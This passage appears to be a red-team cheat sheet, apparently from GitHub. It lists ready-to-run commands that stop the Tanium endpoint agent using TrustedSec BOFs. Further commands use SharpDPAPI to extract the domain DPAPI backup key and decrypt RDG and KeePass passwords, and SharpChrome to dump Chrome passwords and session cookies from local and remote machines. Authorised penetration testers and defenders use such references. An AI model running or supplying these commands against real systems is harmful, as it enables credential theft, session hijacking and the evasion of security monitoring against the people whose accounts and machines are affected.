 # Disabling Tanium Client using TrustedSec Remote Operations BOFs
sc_stop "Tanium Client" --> Attempt to disable Tanium service
sc_qc "Tanium Client" --> Check if Tanium service disabled
```

------------------------------------------------------------------------------------------
## Exploitation

### DPAPI decryption and extraction on Windows systems
[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)
```
# SharpDPAPI to retrieve domain DPAPI backup key and output to file which is used for subsequent attacks (requires DA privileges)
execute-assembly C:\SharpDPAPI.exe backupkey /file:key.pvk

# Decrypt any RDG (remote desktop) passwords found using the domain backup key (can also use local Admin account or master key)
execute-assembly C:\SharpDPAPI.exe rdg /pvk:key.pvk /unprotect

# Decrypt any KeePass passwords found using the domain backup key (can also use local Admin account or master key)
execute-assembly C:\SharpDPAPI.exe keepass /pvk:key.pvk /unprotect
```

SharpChrome to extract and decrypt a user's Chrome sessions/passwords
```
# Dump Chrome logins on the local system for the current user
execute-assembly C:\SharpChrome.exe logins /unprotect

# Dump Chrome cookies on the local system for the current user
execute-assembly C:\SharpChrome.exe cookies

# Dump Chrome cookies on the local system only for a specific URL - Output in JSON format to import into "Cookie Editor" browser extension
execute-assembly C:\SharpChrome.exe cookies /format:json /browser:chrome /url:".*microsoft.com"

# Dumping Chrome login passwords on remote machines using the domain backup key (can also use local user password)
execute-assembly C:\SharpChrome.exe logins /pvk:key.pvk /server:SERVER.lab.com
